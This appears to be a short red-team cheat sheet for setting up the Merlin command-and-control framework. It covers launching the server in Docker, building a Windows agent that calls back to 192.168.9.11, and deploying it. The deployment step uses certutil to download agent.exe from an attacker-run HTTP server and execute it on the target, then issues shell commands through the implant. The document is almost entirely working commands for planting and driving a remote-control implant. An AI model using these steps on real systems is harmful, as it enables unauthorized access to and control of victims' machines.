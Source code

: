 #### 1. About

- URL: `https://github.com/Ne0nd0g/merlin`
- Go tool for multi-platform CC server


#### 2. Setup server
```
# docker pull golang
# docker run --name merlin --rm -it -v /tmp/merlin:/tmp/merlin -p443:443 golang
# go get github.com/Ne0nd0g/merlin 2>/dev/null
# ln -s $GOPATH/src/github.com/Ne0nd0g/merlin /merlin
# cd /merlin/data/x509/
# openssl req -x509 -days 7 -newkey rsa:4096 -sha256 -nodes -keyout server.key -out server.crt -subj "/CN=LOL"
# cd /merlin && go run cmd/merlinserver/main.go -i 0.0.0.0
```


#### 3. Setup agent
```
# docker exec -it merlin bash
# cd /merlin/cmd/merlinagent
# GOOS=windows GOARCH=386 go build -ldflags "-X main.url=https://192.168.9.11" -o /tmp/merlin/agent.exe main.go
```
Note: `https://github.com/Ne0nd0g/merlin/blob/master/data/bin/README.MD`


#### 4. Example

1. Deploy
```
# cd /tmp/merlin && python -m SimpleHTTPServer 8888
C:\Windows\Temp>certutil -urlcache -split -f http://192.168.9.11:8888/agent.exe agent.exe
C:\Windows\Temp>cmd.exe /c agent.exe
```

2. Run
```
Merlin[agent][2d0f28a4-e2f0-4f9a-9e2d-1438ab04fe70]» shell systeminfo
```
